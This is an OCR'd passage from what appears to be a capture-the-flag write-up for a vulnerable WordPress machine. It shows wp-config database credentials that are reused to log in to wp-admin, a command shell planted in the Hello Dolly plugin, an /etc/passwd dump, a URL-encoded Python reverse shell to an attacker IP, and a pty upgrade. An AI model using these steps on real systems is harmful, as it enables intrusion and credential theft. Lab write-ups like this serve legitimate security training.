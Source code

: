 /** MySQL database username */
define('DB_USER', 'Admin');

/** MySQL database password */
define('DB_PASSWORD', 'TogieMYSQL12345^^');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');
```


First thing I check is the wp-admin login with "admin" and "TogieMYSQL12345^^" as the password, which works.

We upload a `shell.php.jpg` file via `wordpress`, but does not execute as `PHP`. Moving on, we can just edit any plugins to accomplish much the same thing though.

We use the hello dolly plugin as our target to insert our command shell
`view-source:http://$IP/wordpress/wp-content/plugins/hello.php?cmd=cat%20/etc/passwd`

Contents of `../etc/passwd`: 
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
landscape:x:103:109::/var/lib/landscape:/bin/false
togie:x:1000:1000:togie,,,:/home/togie:/bin/rbash
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:105:113:MySQL Server,,,:/nonexistent:/bin/false
```

Lets see about getting a reverse shell now.
```
python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%22192.168.1.66%22%2C4444))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call(%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D)%3B%27
```
And then an interactive shell upgrade ala - https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
tput lines